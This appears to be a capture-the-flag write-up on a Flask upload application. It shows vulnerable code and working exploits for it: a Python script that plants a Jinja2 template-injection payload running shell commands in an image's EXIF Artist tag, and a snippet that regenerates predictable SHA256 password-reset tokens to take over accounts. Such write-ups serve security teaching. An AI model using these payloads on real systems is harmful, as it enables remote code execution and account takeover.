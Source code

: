 
---

## Guild CTF — SSTI + EXIF Exploitation & Password Reset Abuse

We are dealing with a Flask web application where users can upload files, and an admin user can review them. During code review, we discovered several important security issues, including Server-Side Template Injection (SSTI) and an insecure password reset mechanism.

---

### SSTI via EXIF 'Artist' Tag

In the `verify()` route, which is only accessible by the admin user, the uploaded file is opened using PIL’s `Image.open`, and EXIF metadata is extracted:

```python
img = Image.open(query.doc)

exif_table = {}
for k, v in img.getexif().items():
    tag = TAGS.get(k)
    exif_table[tag] = v

if "Artist" in exif_table.keys():
    sec_code = exif_table["Artist"]
    query.verified = 1
    db.session.commit()
    return render_template_string("Verified! {}".format(sec_code))
```

Here, the value of the `Artist` tag is injected directly into a Jinja2 template using `render_template_string()`, which makes it vulnerable to SSTI if user input is inserted into EXIF metadata.

---

### Generating a Malicious Image

To exploit this, we created a new user account and uploaded a specially crafted JPEG image with an SSTI payload in the `Artist` EXIF tag.

Below is the script we used to generate the image with embedded SSTI:

```python
from PIL import Image
import piexif
from io import BytesIO

img = Image.new("RGB", (100, 100), color='white')
img.save("tmp.jpg", format="jpeg")

payload = "{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}"
exif_dict = {"0th": {piexif.ImageIFD.Artist: payload.encode()}, "Exif": {}, "GPS": {}, "1st": {}}
exif_bytes = piexif.dump(exif_dict)

piexif.insert(exif_bytes, "tmp.jpg", "exploit.jpg")
```

We then uploaded `exploit.jpg` through the user interface.

When the admin reviews and verifies the submission, the backend extracts the EXIF `Artist` tag and renders it directly using `render_template_string`, executing the injected SSTI payload. As a result, the contents of `flag.txt` are displayed on the admin panel under the "Verified!" message.

---

### Password Reset Exploit

Another vulnerability is present in the password reset functionality. Here's the flow:

* When a user clicks “Forgot Password”, a hash of their email is generated using SHA256 and saved in the database as a reset token (`validlink`).
* The admin doesn’t need to approve it — the logic is automated.
* Anyone who knows the email can compute the hash themselves, craft the reset URL manually, and change the password without access to the original email.

We reviewed the source code and noticed this:

```python
@views.route("/forgetpassword", methods=["GET", "POST"])
def forgetpassword():
    if request.method == "POST":
        email = request.form.get("email")
        query = User.query.filter_by(email=email).first()
        flash("If email is registered then you will get a link to reset password!", category="success")
        if query:
            reset_url = str(hashlib.sha256(email.encode()).hexdigest())
            print(reset_url)
            new_query = Validlinks(email=email, validlink=reset_url)
            db.session.add(new_query)
            db.session.commit()
```

The link is generated using a predictable and non-expiring SHA256 hash of the email address. So we can regenerate it locally.

Example:

```python
import hashlib

email = "4831625453756247@master.guild"
reset_url = hashlib.sha256(email.encode()).hexdigest()
print(reset_url)
```

We visit `/changepasswd/<hash>` with this value, set a new password, and gain access to that account — including the admin if their email is known.

---

### Conclusion

This challenge combines multiple issues:

* **SSTI via EXIF metadata**, where arbitrary code execution is possible by injecting Jinja2 into image metadata.
* **Weak password reset**, allowing unauthorized reset of any account by knowing the email address.
* A blacklist that tries to block dangerous keywords, but can be bypassed using template tricks or indirect access (e.g., via `cycler`).

Both attack vectors together allow full compromise of the web application.
